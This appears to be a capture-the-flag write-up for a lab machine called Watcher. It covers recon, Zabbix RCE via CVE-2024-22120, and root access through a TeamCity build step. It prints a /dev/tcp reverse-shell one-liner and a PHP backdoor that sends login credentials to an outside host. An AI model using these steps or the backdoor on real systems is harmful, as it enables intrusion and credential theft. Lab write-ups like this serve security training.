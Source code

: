 
![](https://images-ext-1.discordapp.net/external/t5J7RHf9Ce4qzovuWH58fQjf0tQy6jDpKgmYAzNHrwM/https/assets.vulnlab.com/watcher_slide.png?format=webp&quality=lossless)

##  Machine Summary

We first find a Zabbix instance which is a vulnerable version where we can gain RCE via `CVE-2024-22120`. After gaining a shell we can backdoor the application to gain the credentials of another user `Frank`. With that user we can login to an internal `TeamCity` instance, that runs as `root`. Where we can create a pipeline to gain a reverse shell as `root`. 

## Recon

```ad-summary
title: NMAP
collapse: open

```nmap
nmap -sC -sV -p- --min-rate 1000 10.10.92.19 -oA watcher  

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-25 20:02 CEST
Stats: 0:00:16 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 25.00% done; ETC: 20:02 (0:00:12 remaining)
Nmap scan report for 10.10.92.19
Host is up (0.019s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f0:e4:e7:ae:27:22:14:09:0c:fe:1a:aa:85:a8:c3:a5 (ECDSA)
|_  256 fd:a3:b9:36:17:39:25:1d:40:6d:5a:07:97:b3:42:13 (ED25519)
80/tcp    open  http       Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://watcher.vl/
10050/tcp open  tcpwrapped
10051/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```ad-important
title: Domains
collapse: open

- **watcher.vl**
```

## Initial Access
We are first presented with a normal website. We then perform subdomain enumeration:
```
ffuf -w /usr/share/amass/wordlists/subdomains-top1mil-5000.txt -u http://watcher.vl -H 'Host: FUZZ.watcher.vl' --fw 1720
```

This yields `zabbix.watcher.vl`

Guest login is enabled there. After login we can see a dashboard where it states the zabbix version as `Zabbix version 7.0.0alpha1`.
There is a [RCE vulnerability]([https://gridinsoft.com/blogs/zabbix-sqli-vulnerability/](https://gridinsoft.com/blogs/zabbix-sqli-vulnerability/ "https://gridinsoft.com/blogs/zabbix-sqli-vulnerability/")) for this version. A [POC is available on Github]([https://github.com/W01fh4cker/CVE-2024-22120-RCE](https://github.com/W01fh4cker/CVE-2024-22120-RCE "https://github.com/W01fh4cker/CVE-2024-22120-RCE")) 

To get the `hostid` we can navigate to Inventory -> Hosts . There is only one with a hostid of `10084` which can be found as a query parameter after clicking on the host.
The `sessionid` can be found in cookie, by base64 decoding it.

Then the script can be run by providing those two parameters:
```
python3 CVE-2024-22120-RCE-2.py --ip zabbix.watcher.vl --sid bbf2d4b5233188ccfe382b39129644f5 --hostid 10084
```

After gaining a shell, it's advisable to stabilize the shell using something like pwncat:

```
bash -c "/bin/bash -i >& /dev/tcp/REDACTED/6063 0>&1" &
```

```
pwncat-cs -lp 6063
```

## Privilege Escalation

After stabilizing the shell we can get the user flag.

There is an interesting service running at 8111 which seems to be a `Teamcity` instance:
To access it we add our ssh key to the users home `/var/lib/zabbix/.ssh` inside `authorized_keys`. We can't actually login using ssh, but we can still use that for a socks proxy:

```
ssh -D 1080 -N -i zabbix.key zabbix@watcher.vl
```

We seem to have access to the login page in `/usr/share/zabbix/index.php` .
We can backdoor that file to forward all logins to our host:

```
$name = $_POST['name'] ?? 'Unknown';
$password = $_POST['password'] ?? 'Unknown';

// Prepare the log entry
//$logEntry = "Name: " . $name . ", Password: " . $password . "\n";

// Write the log entry to the file /tmp/log.txt
// The FILE_APPEND flag ensures the entry is added at the end of the file
// The file will be created if it does not exist
//file_put_contents('/tmp/log.txt', $logEntry, FILE_APPEND);
file_get_contents('http://REDACTED/x?name=' . $_POST['name'] . '&pass=' . $password);
//echo "Data logged successfully2!";
```

Then we get a request to our server after a few minutes:
```
10.10.70.236 - - [25/Jul/2024 23:01:02] "GET /x?name=Frank&pass=REDACTED HTTP/1.1" 404 -
```

We now have creds:
- `Frank`:`REDACTED`

We can now use those creds to access Teamcity. We now just need to create a pipeline giving us a shell:
Create a new project:![[images/new-project.png]]
![[images/create-project.png]]

On the page we now get redirected to there is a Button `Create Build Configuration`
![[images/create-build-config.png]]

Just enter a name and save
![[images/create-build-config-save.png]]

Then skip the VCS integration
![[images/vs-skip.png]]

Then in the BuildConfiguration switch to BuildSteps in the navbar on the left:
![[images/create-build-config.png]]
![[images/create-build-config-save.png]]
There you can add a build step:
![[images/add-build-step.png]]

Select `Command Line` as type:
![[images/cmd-line.png]]

Then we enter reverse shell command in the Custom Script box:
![[images/cmd-line2.png]]

Then save and click run on the top:
![[images/run-build.png]]

After a few seconds a revshell as root will get sent to our host.

We can then read the flag from the root directory:
```
(remote) root@watcher.vl:/root# cat root.txt 
VL{REDACTED}
```
